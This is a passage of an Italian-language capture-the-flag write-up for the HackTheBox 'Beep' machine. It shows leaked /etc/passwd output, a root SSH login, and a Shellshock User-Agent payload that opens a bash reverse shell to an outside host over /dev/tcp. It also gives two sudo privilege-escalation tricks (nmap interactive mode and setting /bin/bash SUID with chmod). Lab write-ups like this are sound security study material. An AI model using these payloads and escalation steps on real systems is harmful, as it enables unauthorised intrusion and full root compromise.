vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin
pcap:x:77:77::/var/arpwatch:/sbin/nologin
ntp:x:38:38::/etc/ntp:/sbin/nologin
cyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash
dbus:x:81:81:System message bus:/:/sbin/nologin
apache:x:48:48:Apache:/var/www:/sbin/nologin
mailman:x:41:41:GNU Mailing List Manager:/usr/lib/mailman:/sbin/nologin
rpc:x:32:32:Portmapper RPC user:/:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
asterisk:x:100:101:Asterisk VoIP PBX:/var/lib/asterisk:/bin/bash
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
spamfilter:x:500:500::/home/spamfilter:/bin/bash
haldaemon:x:68:68:HAL daemon:/:/sbin/nologin
xfs:x:43:43:X Font Server:/etc/X11/fs:/sbin/nologin
fanis:x:501:501::/home/fanis:/bin/bash
Sorry! Attempt to access restricted file.

```

Quindi proviamo sempre ssh con utente root

```bash
┌──(root㉿kali)-[/home/kali/htb/beep]
└─# ssh root@10.10.10.7
root@10.10.10.7's password: 
Last login: Tue Jun 20 13:49:24 2023 from 10.10.14.34

Welcome to Elastix 
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.10.10.7

[root@beep ~]# whoami
root
[root@beep ~]# 
```


## ShellShock

Proviamo ad attaccare il prompt di login sulla porta 1000

Inviamo un richiesta di login ed analizziamola con [[BurpSuite]]

```bash
POST /session_login.cgi HTTP/1.1 Host: 10.10.10.7:10000 
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0 Accept:text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8Accept-Language: en-US,en;q=0.5 
Accept-Encoding: gzip, deflate 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 28 
Origin: https://10.10.10.7:10000 
DNT: 1 
Connection: close 
Referer: https://10.10.10.7:10000/ 
Cookie: testing=1; sid=x 
Upgrade-Insecure-Requests: 1 

page=%2F&user=root&pass=root
```

Crea una richiesta POST a /session_login.cgi.

Ogni volta che c'è CGI , proviamo ad utilizzare la vulnerabilità [[Shocker|ShellShock]]. 
Per testare, trasferirò la richiesta di accesso a Repeater e sostituirò l'intestazione User-Agent con la stringa exploit Shellshock 

`User-Agent: () { :;}; /bin/bash -i >& /dev/tcp/10.10.14.53/4444 0>&1`

Prima ci mettiamo in ascolto con nc 

```bash
┌──(root㉿kali)-[/home/kali/htb/beep]
└─# nc -lnvp 4444
listening on [any] 4444 ...

```

Fatto questo modifichiamo la richiesta di burp come detto in precedenza

```bash
POST /session_login.cgi HTTP/1.1 Host: 10.10.10.7:10000 
User-Agent: () { :;}; /bin/bash -i >& /dev/tcp/10.10.14.34/4444 0>&1
Accept:text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8Accept-Language: en-US,en;q=0.5 
Accept-Encoding: gzip, deflate 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 28 
Origin: https://10.10.10.7:10000 
DNT: 1 
Connection: close 
Referer: https://10.10.10.7:10000/ 
Cookie: testing=1; sid=x 
Upgrade-Insecure-Requests: 1 

page=%2F&user=root&pass=root

```

e otteniamo una shell con privilegi root

```bash
┌──(root㉿kali)-[/home/kali/htb/beep]
└─# nc -lnvp 4444
listening on [any] 4444 ...
^[connect to [10.10.14.34] from (UNKNOWN) [10.10.10.7] 41461
bash: no job control in this shell
[root@beep webmin]# whoami
root
[root@beep webmin]# 
```


# PRIVESC

## Privesc Nmap

Una volta dentro proviamo a lanciare `sudo -l`

```bash
sudo -l
Matching Defaults entries for asterisk on this host:
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR
    LS_COLORS MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY"

User asterisk may run the following commands on this host:
    (root) NOPASSWD: /sbin/shutdown
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/bin/yum
    (root) NOPASSWD: /bin/touch
    (root) NOPASSWD: /bin/chmod
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /sbin/service
    (root) NOPASSWD: /sbin/init
    (root) NOPASSWD: /usr/sbin/postmap
    (root) NOPASSWD: /usr/sbin/postfix
    (root) NOPASSWD: /usr/sbin/saslpasswd2
    (root) NOPASSWD: /usr/sbin/hardware_detector
    (root) NOPASSWD: /sbin/chkconfig
    (root) NOPASSWD: /usr/sbin/elastix-helper

```

Vediamo che possiamo eseguire [Nmap] come sudo 
Eseguirò nmap come root e poi ![command] per eseguire un comando, come bash:

```bash
sudo nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !bash
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
cat /root/root.txt
7d0093408edeb6490ac3af81b5caca1a

```


## Privesc chmod

Come visto in precedenza con `sudo -l` possiamo anche eseguire chmod con privilegi di root
Sceglierò un file, come /bin/bash, e lo imposterò su SUID:

```bash
bash-3.2$ ls -l /bin/bash
-rwxr-xr-x 1 root root 735004 Jan 22  2009 /bin/bash
bash-3.2$ sudo chmod 4755 /bin/bash
bash-3.2$ ls -l /bin/bash
-rwsr-xr-x 1 root root 735004 Jan 22  2009 /bin/bash

```

Ora eseguiamo con -p, e ottieniamo una shell di root:

```bash
bash-3.2$ bash -p 
bash-3.2# id uid=100(asterisk) gid=101(asterisk) euid=0(root)
```

# LESSON LEARNED

Ci sono diversi modi per ottenere il root della macchina, quelli presentati qui includono 

- Una RCE relativo all'applicativo FreePBX / Elastix
- Una LFI dell'applicativo FreePBX / Elastix
- ShellShocker 

Per la privesc abbiamo utilizzato delle misconfiguration di Nmap e chmod

